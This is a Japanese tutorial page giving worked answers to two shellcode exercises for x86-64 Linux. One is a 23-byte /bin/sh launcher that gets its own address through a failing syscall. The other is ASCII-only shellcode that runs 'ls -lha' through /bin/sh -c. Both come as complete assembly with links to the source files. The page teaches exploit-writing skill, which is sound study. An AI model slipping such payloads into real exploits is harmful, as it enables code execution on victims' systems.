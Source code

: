 ```yaml
---
title: 例題の解答 - シェルコードの書き方
date: 2022-02-06 14:04:00
lang: ja
---
```


## 例題１
【問題】
すべての汎用レジスタが0xdeadbeefcafebabeの状態から`/bin/sh`を起動するシェルコードを24バイト以内で書け。（汎用レジスタはRSPやRBPも含む。） 

【解答】
シェルを起動するためには

- rdxを0にする
- rsiを0にする
- rdiに"/bin/sh"の文字列ポインタを入れる
- raxを59にする
- `syscall`命令を呼ぶ

という処理が必要です。まずraxを59にすることを考えます。
```
mov eax, 59
```
では5バイト消費してしまうので、alに対する操作にします。そのためeaxを0にしてからalに59を書き込みます。
```
xor eax, eax
mov al, 59
```
これで4バイトになりました。
xorにより最初にeaxが0になるので、これを利用して`cdq`命令でrdxレジスタを0にしましょう。rsiについてはxorかmovで0にして、`syscall`命令を呼びます。
```
xor eax, eax
cdq
mov esi, eax
mov al, 59
syscall
```
ここまで9バイトで条件を4つクリアしました。
残る条件はrdiに"/bin/sh"のアドレスを入れることです。`call`命令を使うと短く済むのですが、今回スタックポインタが不正なアドレスを指しているので`call`や`pop`は使えません。
すると`lea`命令を使うことを考えますが
```
lea rdi, [rel s_binsh]
```
は8バイトも使ってしまいます。"/bin/sh\\0"に8バイト必要なので、ここまでを合わせると8+8+9=25となり、24バイトでは実現できません。そこで、別の方法を使ってシェルコード領域のポインタを取得します。
今回raxレジスタの初期状態は0xdeadbeefcafebabeなので、この状態でシステムコールを呼ぶと必ず失敗します。この際rcxレジスタに戻りアドレスが入るので、ここからシェルコード領域のアドレスを取得できます。シェルコードのアドレスが分かれば、rcxに値を足して"/bin/sh"へのポインタを作れば完成です。
以下のシェルコードは23バイトです。
```
syscall
xor eax, eax
cdq
mov esi, eax
lea rdi, [rcx+13]
mov al, 59
syscall
db "/bin/sh",0
```
このシェルコードは[ここ](src/smalsh.S)からダウンロードできます。
同じ条件でもっと短いシェルコードを書けたよ〜という方はご一報ください。

## 例題２
【問題】
0x00から0x7Fまでのバイト列のみを使って「ls -lha」を実行するシェルコードを書け。ただし、シェルコード領域は書き込み不能とする。また、RSPは正常なスタックポインタを指しているが、それ以外のレジスタやスタック上のデータの初期状態はランダムと仮定する。 

【解答】
まずコマンドを実行するためには次の処理をする必要があります。

- rdxを0にする
- rsiを引数配列のポインタにする
- rdiを文字列ポインタにする
- raxを59にする
- `syscall`命令を呼ぶ

レジスタの初期状態がランダムなので、まずはレジスタを0にすることを考えます。これは説明した通り、次の命令で実現できます。
```
push rax
xor rax, [rsp]
```
したがって、rdxを0にするのは実現可能です。次にraxを59にする方法ですが、add命令が使えます。
```
add al, 59
```
これでシステムコール番号も用意できました。`syscall`命令はASCIIの範囲内なのでそのまま使えます。

さて、文字列ポインタを取得する方法ですが、`call`命令や`lea`命令を使うとASCIIの範囲を超えるため、例題１と同じく`syscall`命令を使ってシェルコードのアドレスを取得します。今回レジスタの初期状態は未定義ですので、システムコールが必ず失敗する（あるいは意味の無い動作をする）状況を作ってから`syscall`命令を呼び出しましょう。
```
; rax=0
push rax
xor rax, [rsp]
; rsi=0
push rax
pop rsi
; rcx=shellcode+delta
syscall
; <-- retaddr
```
シェルコードのアドレスが得られたので、シェルコード上に用意した各種文字列へのポインタが計算できます。次のようにしてraxにデータへのポインタが入ります。
```
push rcx
pop rax
add al, arg1 - retaddr
```
なお、今回alレジスタに固定値を加算しているため2つの問題が発生します。
1つはオフセット`arg1 - retaddr`がASCIIで表せないオフセットになる可能性です。今回作るシェルコードは十分に小さいのでこれは起こりません。もしオフセットが大きくなったとしても、ゴミデータでオフセットをずらして2バイトの値にし、axレジスタに加算すれば問題は回避できます。
次にalへの加算でオーバーフローが発生した場合に64-bitとして見たときの計算結果がずれる可能性です。こちらはシェルコードがロードされるアドレスによって十分に起こり得ます。その場合、初めに`syscall`命令を呼ぶ前に`push rax; pop rax;`のようなゴミ命令を入れてオフセットをずらせば解決できます。

さて、ここまでの説明でシェルコードは作れます。
```
; rax=0
push rax
xor rax, [rsp]
; rsi=0
push rax
pop rsi
; rcx=shellcode+delta
syscall
@retaddr:
; rdx=0; push 0
push rdx
xor rdx, [rsp]
push rdx
; push arg2
push rcx
pop rax
add al, @arg2 - @retaddr
push rax
; push arg1
push rcx
pop rax
add al, @arg1 - @retaddr
push rax
; push arg0
push rcx
pop rax
add al, @arg0 - @retaddr
push rax
; rdi=arg0
push rax
pop rdi
; rsi=rsp
push rsp
pop rsi
; rax=59
push rdx
pop rax
add al, 59
; syscall
syscall

@arg0:
db "/bin/sh", 0
@arg1:
db "-c", 0
@arg2:
db "/bin/ls -lha", 0
```
このシェルコードは[ここ](src/asciils.S)からダウンロードできます。
